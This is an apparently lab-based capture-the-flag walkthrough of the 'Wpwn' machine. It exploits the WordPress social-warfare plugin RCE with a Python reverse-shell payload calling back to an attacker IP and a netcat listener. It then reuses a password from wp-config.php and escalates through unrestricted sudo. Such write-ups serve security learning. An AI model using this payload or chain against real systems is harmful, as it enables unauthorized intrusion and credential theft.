 # Wpwn
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```

![](images/nmap.png)        

There wasn't anything interesting in the port scan.         
We run dirbuster and find a /wordpress, so we run wpscan for any wordpress vulnerabilities.     

We choose the enumerate flag with all plugins.      

```
$ wpscan --url http://ip_address/wordpress -e ap
```

![](images/wpscan.png)

The wpscan found a vulnerability called social-warfare.         

Googling about it I found [this](https://wpscan.com/vulnerability/9259) on wpscan vulns site. It's an unauthenticated RCE (remote code execution) vulnerability.       

![](images/vuln.png)        

From the looksof it we can send any command so I thought of sending a python reverse shell.     

You can find reverse-shells at [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Here's the one for python
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
put the above code in a payload.txt on your local directory and host a pythin server from there using the command       

Don't forget to add replace with your ipaddress and port
```
$ python3 -m http.server port
```

Fire up a netcat listener           
```
$ nc -lvnp port
```

Checking the wp-config.php file we can find the passwords used to connect to the database.          

We find a password for wp_user. Another user on this system is takis(found by checking out the home directory).     

Let's try and switch to takis using this password.      
```
$ su takis
```

The authentication was taking a bit of time for me, so I thought of connecting through SSH.         

First we check the permissions of user takis            
```
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL

```
We can run all commands so we just switch to root using         
```
$ sudo su
```
Voila, we're root!

![](images/root.png)

You can find the flags by navigating to the /var/www and /root directories